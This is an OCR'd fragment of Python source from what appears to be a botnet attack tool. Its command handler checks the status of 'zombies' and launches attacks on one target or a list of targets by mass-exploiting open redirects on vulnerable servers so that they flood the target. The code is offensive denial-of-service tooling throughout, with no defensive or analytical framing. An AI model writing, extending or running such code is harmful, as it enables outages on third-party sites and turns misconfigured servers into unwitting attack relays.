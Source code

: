         # check botnet searching for zombies offline
        if options.testoffline:
            try:
                self.banner()
                testbotnet = self.testing_offline()
                self.update_missions_stats() # update mothership missions stats
            except Exception:
                print ("\n[Error] [AI] Something wrong checking for offline [Zombies]!\n")
                if DEBUG == True:
                    traceback.print_exc()

        # check ALL botnet status
        if options.testall:
            try:
                self.banner()
                test_all_botnet = self.testing_all()
                self.update_missions_stats() # update mothership missions stats
            except Exception:
                print ("\n[Error] [AI] Something wrong testing ALL botnet status!\n")
                if DEBUG == True:
                    traceback.print_exc()

        # attack target -> exploit Open Redirect massively and conduct vulnerable servers to a single target
        if options.target:
            try:
                self.banner()
                zombies = self.extract_zombies()
                if not zombies:
                    return
                options.target = self.parse_url_encoding(options.target) # parse for proper url encoding
                attack = self.attacking(zombies, options.target)
                self.update_missions_stats() # update mothership missions stats
            except Exception:
                print ("\n[Error] [AI] Something wrong attacking!\n")
                if DEBUG == True:
                    traceback.print_exc()

        # attack a list of targets -> exploit Open Redirect massively and conduct vulnerable servers to multiple targets
        if options.target_list:
            try:
                self.banner()
                zombies = self.extract_zombies()
                if not zombies:
                    return
                targets = self.extract_target_list()
                if not targets:
                    print("\n[Error] [AI] You haven't any valid [Target] to be extracted from: "+str(options.target_list)+" -> [Exiting!]\n")
                    return
                self.options.forceyes = True # force-yes ON!
                self.num_target_list = 0
                print("\n[AI] Checking integrity of targets...\n")
                for t in targets: # start of code block dedicated to: Guido van Rossum [23/12/2018]
                    if not t.startswith("http"): # discarded inmediately
                        print("[Info] [AI] [Control] " + str(t) + " -> [Discarding!]")
                        targets.remove(t) # ¿remove? invalid targets